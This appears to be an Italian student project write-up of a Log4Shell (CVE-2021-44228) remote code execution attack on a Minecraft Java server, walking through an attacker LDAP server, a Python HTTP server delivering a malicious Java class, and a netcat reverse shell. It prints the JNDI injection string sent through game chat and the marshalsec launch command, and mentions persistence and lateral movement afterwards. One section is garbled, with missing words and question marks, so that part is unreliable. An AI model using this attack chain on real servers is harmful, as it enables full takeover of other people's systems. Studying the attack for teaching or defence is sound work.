 # Minecraft Server RCE - TRIPALDI Gabriele
## Preambolo:  cos'è un server Minecraft?
Minecraft è un videgioco sandbox molto popolare che da vari anni è stato acquisito dalla Microsoft. Il gioco offre due versioni differenti, la "Java Edition" scritta appunto in Java, e la "Bedrock Edition" una versione multipiattaforma scritta in C++, un server della bedrock edition non supporta client Java e viceversa.
Questo progetto si baserà sui server e client basati sulla versione Java, eseguibile solamente su sistemi Windows, Linux e Mac.

----------
### La vulnerabilità del server
Nella versione 1.8.0/1.8.8 del gioco è stata trovata la vulnerabilità zero-day **CVE-2021-44228**, meglio nota come Log4Shell.
Microsoft ha successivamente rilasciato una patch per prevenirne gli abusi direttamente sostituendo la versione nella repository ufficiale. Questi server sono chiamati "Vanilla", ossia senza modifiche del server stesso, tuttavia non sono in grado di prevenire l'abuso di cheat all'interno del gioco non offrendo funzionalità aggiuntive e per questo motivo sono stati creati dalla community, versioni di terze parti (es: Bukkit, Spigot, Paper) che consentono maggior sicurezza e l'installazione di plugins scritti in Java.
Visto che il server Vanilla vulnerabile è di difficile reperibilità, si è proceduto tramite risorse esterne a scaricare un server di terze parti molto popolare "Paper" che ha successivamente patchato il server ma la sua versione unpatched è più facile da reperire.

**Log4j**: La vulnerabilità si basa sul framework Log4j che consente di gestire il logging dell'applicazione o dei servizi online ed ha anche la possibilità di comunicare con altri servizi sul sistema. Minecraft implementa questo framework che sarà la causa della vulnerabilità.

## L'attacco
L'attacco parte sulla creazione di un server LDAP che sarà il punto di ingresso del traffico verso la vittima.
Viene in oltre messo su un server http (in questo caso viene usato un server python) che sarà l'esecutore dell'inziezione del codice malevolo.
Già questo basterebbe per la compromissione del sistema attaccato, tuttavia si è voluto anche creare una classe Java che consenta anche la Remote Code Execution tramite reverse shell. Perciò risulta necessaria la creazione di un ulteriore server TCP, nel nostro caso useremo Netcat.

** **: Nella fase di , una volta scelto il targert, si deve pensare ad una strategia di anominizzazione, s

**Injection**: La fase di iniezione consiste di inviare via chat di gioco, un ????????? così composto: `${jndi:ldap://ip_serverLDAP_attaccante:porta_ldap/NomeClasseJavaMalevola}`, ciò farà si che il framework inzi una connessione LDAP al server dell'attaccante.
Non ci sono particolari complicanze in questa fase e questo messaggio può essere potenzialmente inviato da qualsiasi giocatore e da qualsiasi IP.

Una volta che la connessione LDAP è stabilita con l'attccante, il server rigetterà la richiesta al server HTTP che userà la classe Java (precompilata) come response al server vittima.

Il server vittima ricevuta la classe, deserielizzerà il contenuto ed eseguirà il codice all'interno, nel nostro caso, come già anticipato, forzerà il server ad eseguire una nuova connessione TCP al server netcat aprendo una reverse shell.

A questo punto il sistema attaccato sarà nel completo controllo dell'attaccante e potrà eseguire tutte le operazioni che vorrà, magari installando un malware, creare persistenza, effettuare movimenti laterali ecc...

## Tool necessari per l'attacco
* Per il **Server LDAP** si è utilizzata la classe Java `LDAPRefServer.java` nella sezione jndi della repo GitHub [Marshalsec](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java) contenente vari tool inerenti *"all'insicurezza"* di Java.

* **JDK 8.1.0_101**: E' necessario l'utilizzo della stessa versione Java con cui il server Minecraft è compilato, altrimenti l'esecuzione della classe malevola sul server non funzionerebbe.
* **Python**: Per l'avvio di un server http che consenta l'invio della classe Java.
* **Netcat**: Per consentire la connesione TCP della vittima all'attccante in modo da fornire una reverse shell.

# PoC
**1)** Scrittura classe Java e compliarla tramite "javac" con la stessa versione del server vulnerabile: `javac <percorso>/NomeClasseJavaMalevola.jar` che darà in output un file .class essenziale per il server HTTP.

**2)** Avvio del server LDAP tramite: 
```console
java -cp target/marshalsec-[VERSIONE]-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer <inidirizzo_attacante_serverHTTP>#<NomeClasseJavaMalevola> [<porta>]
``` 
